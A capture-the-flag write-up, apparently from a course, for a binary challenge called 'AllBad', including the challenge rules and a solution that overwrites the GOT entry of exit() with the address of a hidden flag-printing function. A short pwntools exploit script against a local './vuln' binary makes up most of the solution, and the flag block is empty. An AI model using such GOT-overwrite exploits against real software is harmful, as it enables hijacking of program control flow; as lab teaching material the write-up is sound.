 # AllBad
### 📍 Description
Can you make the angry man express himself?

### 📄 Rules
- Do not patch this binary.
- Do not modify or delete the temp file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

## 🔑 Solution
Using ida we see that the main function does nothing. But we noticed `give_the_man_a_guitar()` function. What we can do is ovveride the pointer to `exit()` to point to  `give_the_man_a_guitar()` function, so that when `exit(0)` is called at the end, it actually calls the other function.

```python
from pwn import *

elf = ELF('./vuln')

r = process('./vuln')
r.sendline(b'y')
r.sendline(str(elf.functions['give_the_man_a_guitar'].address))
r.sendline(str(elf.got['exit']))
```

### 🚩 Flag
```plain

```